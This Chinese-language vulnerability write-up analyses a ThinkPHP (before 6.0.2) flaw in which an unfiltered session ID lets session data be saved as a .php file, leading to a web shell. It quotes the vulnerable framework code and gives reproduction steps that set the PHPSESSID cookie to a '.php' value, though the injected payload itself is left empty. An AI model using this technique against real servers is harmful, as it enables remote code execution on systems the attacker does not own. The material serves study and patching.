

# Thinkphp < 6.0.2 session id 未作过滤导致 getshell

> 原文：[http://book.iwonder.run/0day/Thinkphp/16.html](http://book.iwonder.run/0day/Thinkphp/16.html)

## 一、漏洞简介

## 二、漏洞影响

Thinkphp < 6.0.2

## 三、复现过程

### 漏洞分析

通过 diff github 上面的 6.0.1 和 6.0.2 的代码可以发现，6.0.1 在设置`session id`时未对值进行`ctype_alnum()`校验，从而导致可以传入任意字符。


传入任意字符会有什么危害？一般来说程序可能会以 session id 作为文件名来创建对应的 session 文件，但是到目前为止这只是猜测。看一下保存 session 是怎么写的。

```
public function save(): void
{
    $this->clearFlashData();

    $sessionId = $this->getId();

    if (!empty($this->data)) {
        $data = $this->serialize($this->data);

        $this->handler->write($sessionId, $data);
    } else {
        $this->handler->delete($sessionId);
    }

    $this->init = false;
} 
```

先获取 sessionid，然后作为第一个参数传入`$this->handler->write()`。`$this->handler`在构造函数中被初始化

```
public function __construct($name, SessionHandlerInterface $handler, array $serialize = null)
{
    $this->name    = $name;
    $this->handler = $handler;

    if (!empty($serialize)) {
        $this->serialize = $serialize;
    }

    $this->setId();
} 
```

可以看出`$handler`的类型是`SessionHandlerInterface`，全局发现这是一个接口，实现这个接口的类有两个，一个是`File`，一个是`Cache`。这里以`File`类为例，我们跟进它的`write()`方法

```
public function write(string $sessID, string $sessData): bool
{
    $filename = $this->getFileName($sessID, true);
    $data     = $sessData;

    if ($this->config['data_compress'] && function_exists('gzcompress')) {
        //数据压缩
        $data = gzcompress($data, 3);
    }

    return $this->writeFile($filename, $data);
} 
```

这里先通过第一个参数（也就是 session id）来构造`$filename`，然后判断是否需要对 session 数据进行压缩，默认是不需要的，最后 return 时调用`$this->writeFile()`。先看看文件名是如何构造的，跟进`$this->getFileName()`

```
protected function getFileName(string $name, bool $auto = false): string
{
    if ($this->config['prefix']) {
        $name = $this->config['prefix'] . DIRECTORY_SEPARATOR . 'sess_' . $name;
    } else {
        $name = 'sess_' . $name;
    }

    $filename = $this->config['path'] . $name;
    ...
    return $filename;
} 
```

这里直接将第一个参数拼接到路径的最后。跟进之前的`$this->writeFile()`方法

```
protected function writeFile($path, $content): bool
{
    return (bool) file_put_contents($path, $content, LOCK_EX);
} 
```

刺激了，这里直接保存了文件。纵观全局，由于程序未对 session id 进行危险字符判断，只要将 session id 写为类似于`xxxx.php`的格式，即可导致 session 保存成`.php`文件，从而 getshell。

### 漏洞复现

通过全局搜索`setId`发现在`think/middleware/SessionInit.php:handle():L59`发生了调用。

```
public function handle($request, Closure $next)
{
    // Session 初始化
    $varSessionId = $this->app->config->get('session.var_session_id');
    $cookieName   = $this->session->getName();

    if ($varSessionId && $request->request($varSessionId)) {
        $sessionId = $request->request($varSessionId);
    } else {
        $sessionId = $request->cookie($cookieName);
    }

    if ($sessionId) {
        $this->session->setId($sessionId);
    }
    ... 
```

由于`session.var_session_id`默认是空，这里的`$sessionId`的值由`$request->cookie($cookieName)`获得，`$cookieName`经过跟进后发现默认是 PHPSESSID。



因此我们只要设置 Cookie 中的 PHPSESSID 的值为 1234567890123456789012345678.php 即可。

我们在 index 控制器中添加如下 action

```
public function testsession2(){
    $username = Request::get('name');
    Session::set('username', $username);
    return 'hi';
} 
```

用于获取 name 参数，并将之设置到 session 中。

访问 url：`http://127.0.0.1/tp6/public/index.php/index/testsession2?name=`


访问 session 文件，一般位于项目根目录下的`./runtime/session/`文件夹下，也就是`/runtime/session/sess_1234567890123456789012345678.php`


## 参考链接

> [https://xz.aliyun.com/t/7109](https://xz.aliyun.com/t/7109)

